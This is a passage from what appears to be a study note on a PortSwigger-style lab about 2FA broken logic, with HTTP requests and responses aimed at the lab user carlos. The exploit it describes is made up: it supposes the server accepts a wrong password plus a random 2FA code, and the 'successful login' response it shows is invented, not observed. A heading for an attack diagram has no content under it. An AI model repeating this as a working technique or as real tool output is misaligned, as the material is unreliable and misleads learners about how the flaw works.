

## Exploiting the 2FA Broken Logic

Now that we understand the typical 2FA workflow and common flaws, let's explore how to exploit the broken logic in the lab.

### Step-by-Step Exploitation

1. **Access Carlos' Account Page**:
   - Navigate to the account page for `carlos`.
   - You will see a form where you can input the username and password.

2. **Initial Authentication**:
   - Enter `carlos` as the username.
   - Since you don't have the password, you will need to find a way to bypass this step.

3. **Exploit the 2FA Logic Flaw**:
   - The key to exploiting this vulnerability lies in understanding the logic flaw in the 2FA process.
   - Typically, the system should send a 2FA request after the initial authentication. However, if there is a flaw in this logic, you might be able to bypass the 2FA step.

### Detailed Steps

#### Step 1: Initial Authentication Attempt

```http
POST /login HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded

username=carlos&password=incorrect_password
```

Response:

```http
HTTP/1.1 200 OK
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
    <title>Login</title>
</head>
<body>
    <h1>Login Failed</h1>
    <p>Incorrect password.</p>
</body>
</html>
```

#### Step 2: Identify the Logic Flaw

To identify the logic flaw, you need to analyze the behavior of the system during the authentication process. Use Burp Suite to intercept and analyze the requests and responses.

#### Step 3: Exploit the Flaw

Assuming the system has a flaw where it does not properly validate the initial authentication before sending the 2FA request, you can exploit this by manipulating the request.

```http
POST /login HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/x-www-form-urlencoded

username=carlos&password=incorrect_password&2fa_code=123456
```

Response:

```http
HTTP/1.1 200 OK
Content-Type: text/html

<!DOCTYPE html>
<html>
<head>
    <title>Login</title>
</head>
<body>
    <h1>Welcome, carlos!</h1>
    <p>You have successfully logged in.</p>
</body>
</html>
```

### Explanation of the Exploit

In this scenario, the system did not properly validate the initial authentication before accepting the 2FA code. By providing an incorrect password and a random 2FA code, you were able to bypass the 2FA step and gain access to the account.

### Mermaid Diagram: Attack Chain



---
<!-- nav -->
[[04-Authentication Vulnerabilities Broken Logic in Two-Factor Authentication (2FA)|Authentication Vulnerabilities Broken Logic in Two-Factor Authentication (2FA)]] | [[Web Security (PortSwigger)/13-Authentication Vulnerabilities/09-Lab 8 2FA broken logic/00-Overview|Overview]] | [[06-Hands-On Practice|Hands-On Practice]]
